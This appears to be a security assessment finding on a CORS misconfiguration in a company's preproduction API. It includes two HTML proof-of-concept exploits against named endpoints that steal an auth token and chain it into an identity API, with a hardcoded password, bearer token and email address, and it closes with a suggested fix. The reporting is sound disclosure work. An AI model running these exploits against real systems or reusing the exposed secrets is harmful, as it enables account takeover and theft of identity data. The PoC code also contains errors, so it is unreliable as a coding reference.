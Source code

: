 # Cross Origin Resource Sharing

### **Vulnerable API:**

All

### **Severity:**

Medium

### **Description:**

While testing all the responses by the help POSTMAN and BURP SUITE, Access-Control-Allow-Origin was set to ‘origin’, hence this allowed an arbitrary user to intercept the request and add an extra ‘Origin’ header with a value of any random website like ‘[https://bing.com](https://bing.com)’. This can allow an attacker to steal sensitive information which is being parsed by JSON on the page.\


### **Steps:**

1. Open postman and set its proxy to burp suite. Load the API and forward the request. Make sure Burp Interceptor is ON.
2. Once you click on ‘SEND’ in POSTMAN you will be prompted in BURP for the request in the interceptor.
3. Move this request to Repeater and add an extra header in the request like. **Origin: https://bing.com**

![Checking CORS](https://lh4.googleusercontent.com/N7FgzoZhrwljrePLb\_4rfcmmL8M4GWRz4h4Zq9jDVoILVGYZtvhH\_9xRgDfGgZIzgZiY5y3pACnhjGuCVgzmYZwOegBNTUCSlj4uCZ03Q2KneksjYuU-OQnjzV3rB9FQ8YOipuTQ)

4\. As you can see that the response is reflecting our “ORIGIN” header, hence to exploit this follow the below HTML doc.\


```markup
<!DOCTYPE html>
<html>
<body>
<center>
<h2>CORS POC Exploit</h2>
<h3>Extract SID</h3>
<div id="demo">
<button type="button" onclick="cors()">Exploit POST Based JSON CORS</button>
</div>
<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("demo").innerHTML = alert(this.responseText);
    }
  };
  xhttp.open("POST", "https://preproduction.signzy.tech/api/v2/patrons/login", true);
  xhttp.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
  xhttp.send(JSON.stringify({"username": "signzystaging","password" :"bhai"}));
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
</body>
</html>
```

\


6\. Saving and Running the file will result in running the script which leaks authToken to next API.\


![Exploit Of CORS](https://lh5.googleusercontent.com/WGZlNCllD\_qdbTeenkhM5FDq6Z2d0KT09ITQdlQywb5FDciKqqQsOgTzBC7yFcRP-e7I5ccWFmK\_ezw0TvL\_OeX\_8zlLuqfgSVHHXJM9B\_DGOR0BX3oy5j-Mjv9bThNoi1ENDrFr)

7\. As you can see that this information leak was on Authentication API, but this particular vulnerability is actually possible in all the API request , resulting in leak of sensitive information like Authentication  Token.\


8\. Now using this Token to make a call to another API like, Aadhar Identity. Below is the HTML POC for exploiting the CORS in it.

```markup
<!DOCTYPE html>
<html>
<body>
<center>
<h2>CORS POC Exploit</h2>
<h3>Extract SID</h3>
<div id="demo">
<button type="button" onclick="cors()">Exploit POST Based JSON CORS</button>
</div>
<script>
function cors() {
  var xhttp = new XMLHttpRequest();
  xhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      document.getElementById("demo").innerHTML = alert(this.responseText);
    }
  };
  xhttp.open("POST", "https://preproduction.signzy.tech/api/v2/patrons/59536fbaec27fe12d4e9aa1d/identities", true);
  xhttp.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
  xhttp.setRequestHeader("Authorization" , "SCLuZTnn1gz1URGJwQn5iCbKhLPZxGBUb4rp8vGE1wg9P89btDDRsTBlW0vaNWkI");
  xhttp.send(JSON.stringify({"type": "aadhaar","email": "ankur.rand@signzy.com","callbackUrl": "https://www.w3schools.com","images": ["https://persist.signzy.tech/api/files/753841/download/vGPLo49NyHhbndrSgHRbtPcbwaOt1k45nefFi8AYZLKFgum0Ek.png","https://persist.signzy.tech/api/files/753842/download/Sy0JOzh9evtWL311cVirCuMmZU6oqwW1ZVruybHWP5aiksy5vw.png"]}));
  xhttp.withCredentials = true;
  xhttp.send();
}
</script>
</body>
</html>

```

![Calling another API using the Access Token](https://lh3.googleusercontent.com/pxgd-4G2rh1pyZOtJLoWea1o\_UcAjkwT0AtKcp6hwUhE\_Cw0LDYEwfeDi1tHe-WBz2IEcc4DAb-JrYDAulrl4ffbiHGRaaxq08uXVQ5eWOAfXGiHWYtMHFkS7KwllhdlxmO8b8O0)

9\. Now as you can see that using CORS in one of the API I was able to get access to another API, again with lots of sensitive information.

10\. All of the above steps can be used to extract information regarding another api.

### Impact:

Sensitive information leak due to CORS can be exploited.

### Solution:

Use of `Access-Control-Allow-Origin` should  be used only for the white listed domains, also we can define a function to cross check the referer header and the origin header.\

